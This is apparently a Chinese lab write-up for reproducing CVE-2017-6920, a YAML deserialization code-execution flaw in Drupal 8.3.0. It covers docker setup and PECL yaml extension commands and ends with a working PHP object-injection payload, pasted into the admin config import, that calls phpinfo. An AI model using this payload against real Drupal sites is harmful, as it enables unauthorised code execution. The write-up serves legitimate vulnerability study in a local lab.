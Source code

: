 # CVE-2017-6920 Drupal core 8 PECL YAML 反序列化任意代码执行漏洞

* 影响软件：Drupal
* 方式：反序列化
* 参考链接：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)
* 效果：任意代码执行

## 漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

* 先安装 `yaml` 扩展

```bash
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER
```

* 1.登录一个管理员账号
* 2.访问 `http://127.0.0.1:8080/admin/config/development/configuration/single/import`
* 3.如下图所示，`Configuration type` 选择 `Simple configuration`，`Configuration name` 任意填写，`Paste your configuration here` 中填写PoC如下：

```php
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

![1](1.png)

* 4.点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面。

![2](2.png)

* Tips：
  * 虽然官方 CPE 信息显示从 `8.0.0` 开始就有该漏洞，但是在 `drupal:8.0.0` 容器内并没有复现成功，相同操作在 `drupal:8.3.0` 则可以复现成功，故基础镜像选择`drupal:8.3.0`
